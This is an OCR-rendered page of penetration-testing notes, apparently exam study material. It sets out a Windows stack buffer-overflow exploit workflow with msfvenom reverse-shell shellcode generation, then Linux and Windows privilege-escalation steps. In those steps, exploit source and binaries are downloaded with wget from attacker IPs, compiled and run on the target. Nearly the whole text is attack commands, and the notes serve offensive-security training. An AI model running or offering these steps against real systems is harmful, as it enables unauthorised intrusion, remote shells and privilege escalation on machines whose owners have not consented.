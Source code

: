 ````
Find a CPU register to overwrite with ‘B’s via pattern - this will be your jump

```msf_Pattern_create -l 2900```

Determine when register is being overwritten

```msf-pattern_offset -l 2900 -q 39694458```

Pad the rest with Cs to fill the buffer - this will be your shellcode 

```Buffer = “A”*2606 + “B”*4 + “C”*(2900-2606-4)```

Determine badchars to make sure all of your payload is getting through

```mona! bytearray```

Develop exploit - find a loaded DLL (user32.dll?) without ASLR or DEP (and no bad characters!)

Is the payload right at ESP?

```JMP ESP → !mona find -s “\xff\xe4” -m loaded.dll```

Is the payload before ESP?

```sub ESP, 200 and then JMP ESP```

Or

```call [ESP-200]```

Generate shellcode:
```
msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -b “\x0\x04\x2f\x3a” -o filename
```

Make sure it fits your payload length above

# Privilege Escalation - Exploits 

#### Linux
```searchsploit CentOS 4. | grep /local/``` (look for kernel version)

```searchsploit linux kernel 4.4.0 | grep 16.04``` (search by kernel, grep for release)

Transfer and compile on target machine to account for dependencies

```wget http://192.168.1.223/9495.c -P /var/tmp```

```
gcc -o centos45 9495.c 
chmod +x centos45
./centos45
```

#### Windows
```Searchsploit ??? | grep /local/ (look for?)```

```windows-exploit-suggester.py -d 2019-05-17-mssb.xls -i sysinfo```

#### Compile
Windows local exploit must be compiled on Kali with:

```i686-w64-mingw32-gcc ms11-046.c -lws2_32 -o adfsys.exe ```

```cscript wget.vbs http://10.11.0.148/adfsys.exe -O C:\lec\go.exe```
````